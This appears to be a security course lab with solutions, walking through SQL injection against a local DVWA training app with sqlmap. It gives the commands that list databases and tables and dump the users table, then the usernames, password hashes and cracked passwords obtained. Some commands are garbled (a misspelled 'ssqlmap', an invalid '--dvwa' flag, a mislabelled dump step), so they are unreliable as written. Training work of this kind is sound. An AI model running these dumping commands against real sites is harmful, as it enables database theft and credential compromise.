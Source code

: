 ## Dumping Databases with sqlmap

### Instructions

Using your Linux VM turn on the DVWA by typing: `dvwa_start`

- Then, follow the instructions below.

Browse the site, and look at the URL bars. Find the page that accepts a GET query parameter.
  - Record this URL when you find it.
  - **Solution**: `http://youripaddress/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`

Use SQLMap to test the URL for a SQL injection vulnerability.
  - **Solution**: `http://youripaddress/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`

Next, use a UNION-based injection to perform the following tasks, and 
  - Grab the database banner
  - List all available databases
  - List the tables of the `dvwa` database
  - List the columns of the `users` table
  - Dump the `login` and `password` columns of the `users` table

  ```bash
    > Banner = sqlmap -u "http://youripaddress/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your session ID; security=low"--banner
    > Databases = ssqlmap -u "http://youripaddress/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your session ID; security=low" --dvwa
    > Tables = sqlmap -u "http://youripaddress/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your session ID; security=low" --tables
    > Columns of the users table =  sqlmap -u "http://youripaddress/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your session ID; security=low" --current-db dvwa --dump
    > cat users.csv
  ```

Record the results of your information gathering below.
  - **Banner**

    ```bash
    web server operating system: Linux Debian
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0
    ```

  - **Databases**: `dvwa` and `information_schema`
  - **Tables in `dvwa`**: `guestbook`, and `users`
  - **Columns in `users`**: `user_id`, `avatar`, `user`, `password`, `last_name`, `first_name`, and `last_login`. 

How many users are registered on this site? What are their username/passwords hashes?
  - **Solution**: There are five registered users thier names and password hashes are: 
```  
admin   | 5f4dcc3b5aa765d61d8327deb882cf99 
gordonb | e99a18c428cb38d5f260853678922e03 
1337    | 8d3533d75ae2c3966d7e0d4fcc69216b 
pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 
smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 
```

What is one of the passwords that you dumped?
  - **Solution**: Cracking with SQLMap or simply Googling reveal that the passwords are: 

```  
admin   | password
gordonb | abc123
1337    | charley
pablo   | letmein
smithy  | password
```
